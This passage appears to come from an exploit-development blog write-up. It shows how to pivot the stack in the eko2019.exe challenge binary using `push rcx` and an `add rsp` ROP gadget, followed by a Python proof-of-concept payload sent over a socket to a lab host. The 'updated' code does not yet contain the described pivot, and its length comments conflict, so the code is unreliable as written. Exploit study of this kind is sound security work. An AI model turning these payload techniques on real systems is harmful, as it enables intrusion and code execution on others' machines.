 Investigating a little bit more, we can recall that our move instruction also ends with a `ret`, which will take the value located at RSP (the stack), and execute it. Since we can control RCX - if we could find a way to load RCX into RSP, we would return to that value and execute it, via the `ret` that exits the function call. What would make sense to us, is to load RCX with a ROP gadget that would `add rsp, X` (which would make RSP point into our user controlled portion of the stack) and then start executing there! The question still remains however - even though we can control RCX, how are we going to execute what is in it?

After some trial and error, I finally came to a pretty neat conclusion! We can load RCX with the address of our stack pivot ROP gadget. We can then replace the `\x41` byte from earlier (we changed this byte to `\x65` in the PEB portion of this exploit) with a `\x51` byte!

The `\x51` byte is the opcode that corresponds to the `push rcx` instruction! Pushing RCX will allow us to place our user controlled value of RCX onto the stack (which is a stack pivot ROP gadget). Pushing an item on the stack, will actually load said item into RSP! This means that we can load our own ROP gadget into RSP, and then execute the `ret` instruction to leave the function - which will execute our ROP gadget! The first step for us, is to find a ROP gadget! We will use [rp++](https://github.com/0vercl0k/rp) to enumerate all ROP gadgets from eko2019.exe.

After running rp++, we find an ideal ROP gadget that will perform the stack pivot.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_46.png" alt="">

This gadget will raise the stack up in value, to load our user controlled values into RSP and subsequent bytes after RSP! Notice how each gadget does not show the full virtual address of the pointer. This is because of ASLR! If we look at the last 4 or so bytes, we can see that this is actually the offset from the base virtual address of eko2019.exe to said pointer. In this case, the ROP gadget we are going after is located at eko2019.exe + 0x158b.

Let's update our proof of concept with the stack pivot implemented.

```python
import sys
import os
import socket
import struct
import time

# Defining sleep shorthand
sleep = time.sleep

# 16 total bytes
print "[+] Sending the header..."
exploit = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 bytes + 16 byte header = 528 total bytes

# 512 byte offset to the byte we control
exploit += "\x41" * 512

# The GS segment register gives us access to the PEB at an offset of 0x60
exploit += "\x65"

# \x60 will be moved in gs:[rcx] (\x41's are padding)
exploit += "\x41\x41\x41\x41\x41\x41\x41\x60"

# Must be a multiple of 8 - so null bytes to compensate for the other 7 bytes
exploit += "\x00\x00\x00\x00\x00\x00\x00"

# Message needs to be 528 bytes total
exploit += "\x41" * (544-len(exploit))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit)

```